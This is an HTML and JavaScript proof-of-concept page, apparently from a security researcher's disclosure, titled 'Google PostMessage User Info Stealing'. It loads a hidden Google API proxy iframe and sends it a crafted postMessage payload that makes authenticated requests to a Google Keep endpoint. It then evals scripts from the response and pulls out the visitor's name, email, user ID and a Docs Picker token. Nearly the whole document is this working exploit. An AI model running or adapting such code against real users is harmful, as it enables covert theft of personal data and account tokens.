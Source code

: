 
<!doctype html>
<html lang="en">
<head>
<title>Google PostMessage User Info Stealing</title>
<p>source from http://vinothsparrow.herokuapp.com/static/google-xss.html
https://youtu.be/x9sCZyB_kNQ
</p>
</head>
<script>
    function log(e) {
        document.getElementById('messages').innerHTML += e + "<br>";
    }
    var preloadUserInfo = () => {};
    var loadChunk = (e) => {
        console.log(e);
        if(e instanceof Array) {
            for (const note of e) {
                if(note.hasOwnProperty('text')){
                    log("Your note type:<b>"+note.type+"</b> text:<b>"+note.text+"</b>");
                }
                else if(note.hasOwnProperty('title')){
                    log("Your note type:<b>"+note.type+"</b> title:<b>"+note.title+"</b>");
                }
                else {
                    log("Your note type:<b>"+note.type+"</b>");
                }
            }
        }
    };
    function sendPayload(msg){
        let win = window.frames.iframe;
        win.postMessage(msg, '*');
    }
    function iframeOnLoad(){
        log("iframe https://keep-pa.clients6.google.com/static/proxy.html loaded");
        setTimeout(function(){
            log("sending payload to iframe");
            sendPayload(JSON.stringify({"s":"makeHttpRequests","f":"..","c":1,"a":[[{"key":"gapiRequest","params":{"url":"/","path":"/","httpMethod":"GET","headers":{},"urlParams":{},"root":"keep-pa.clients6.google.com","authType":"1p"}}]],"l":false,"g":true,t:"","r":".."}))
        }, 3000);
    }
    window.addEventListener("message",function(e) {
        log("received data from iframe");
        log("parsing the data from https://keep-pa.clients6.google.com/");
        var data = JSON.parse(e.data);
        if(data.s == "__cb"){
            var a = data.a[1];
            var res = JSON.parse(a);
            var body = res.gapiRequest.data.body;
            var parser = new DOMParser();
            var htmlDoc = parser.parseFromString(body, 'text/html');
            eval(htmlDoc.querySelectorAll('script')[0].text);
            var userId = _notes_flag_initialData.n_ui;
            var email = _notes_flag_initialData.n_ue;
            var name = htmlDoc.body.getElementsByClassName('gb_nb')[0].textContent;
            if(email == undefined || email ==""){
                email = htmlDoc.body.getElementsByClassName('gb_ob')[0].textContent;
                if(email == undefined || email ==""){
                    email = htmlDoc.body.getElementsByClassName('gb_3b')[0].textContent;
                }
            }
            log("Your name:<b>" + name + "</b> email:<b>"+email+"</b> Your userId:<b>"+userId+"</b>");
            eval(htmlDoc.querySelectorAll('script')[10].text);
            try{
                eval(htmlDoc.head.querySelectorAll('script')[1].text)
                var token = gbar_.CONFIG[0][6][35];
                log("Your https://docs.google.com/picker  token:<b>"+token+"</b>");
            }catch(e){}
            log("<code>" + body + "</code>");
        }
    });
</script>
<body>
    <div class="container">
        <pre>
        <h2>Google PostMessage User Info Stealing</h2>
        <div class="alert alert-info" id="messages"></div><br/>
        <iframe src="https://clients6.google.com/static/proxy.html?usegapi=1&jsh=m%3B%2F_%2Fscs%2Fabc-static%2F_%2Fjs%2Fk%3Dgapi.gapi.en.7RphtNcGHDQ.O%2Fd%3D1%2Frs%3DAHpOoo_-zmYhp_Ir7_CCxM3l-AckMvaI9A%2Fm%3D__features__&rpctoken=342461366&parent=https://vinothsparrow.herokuapp.com&rpcUrl=https://vinothsparrow.herokuapp.com&origin=https://vinothsparrow.herokuapp.com" style="display:block; visibility:hidden" name="iframe" onload="iframeOnLoad();">
        </pre>
    </div>
</body>
</html>